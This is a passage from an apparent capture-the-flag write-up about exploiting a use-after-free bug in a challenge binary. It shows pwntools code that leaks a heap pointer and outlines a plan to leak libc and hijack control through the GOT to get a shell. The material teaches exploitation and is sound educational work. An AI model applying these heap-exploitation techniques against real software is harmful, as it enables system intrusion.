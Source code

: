 ```python

r = process(["./ld-2.27.so", "./uaf"], env={"LD_PRELOAD":"./libc.so.6"})

r.interactive()
```

Now we can use these functions to create/edit/view/delete chunks. For example, we can recreate the previous steps with the following code: 

```python
[...]
create(r, b"AAAAAAAA")
create(r, b"BBBBBBBB")
delete(r, 1)
delete(r, 0)
leak = view(r, 0)
print(leak)

r.interactive()
```

```
$ ./test.py 
[+] Starting local process './ld-2.27.so': pid 4449
[*] Creating chunk with contents b'AAAAAAAA'
[*] Creating chunk with contents b'BBBBBBBB'
b'p\xc3\x8aUUU\n'
```

Perfect. 

---
## Developing an exploit ##
---

So, we theoretically have an `arbitrary read` and `arbitrary write` primitive. What we need to accomplish to get a shell with this is two-fold: 

1. Leak any address that points into `libc` so we can calculate where functions like `system()` are.
2. Hijack control flow somehow.

There's a little catch here: in the process of creating a new rule/chunk, we're also forced to write at least 1 byte to the corrupted target address. This isn't a big problem in terms of overwriting data we need for a leak, but it does restrict us to only being able to leak from memory that is also `writable`. 

### GOT ### 

In this specific challenge, the `GOT` is all we need. remember from the output of `checksec` we determined that: 

```
    RELRO:    Partial RELRO
```
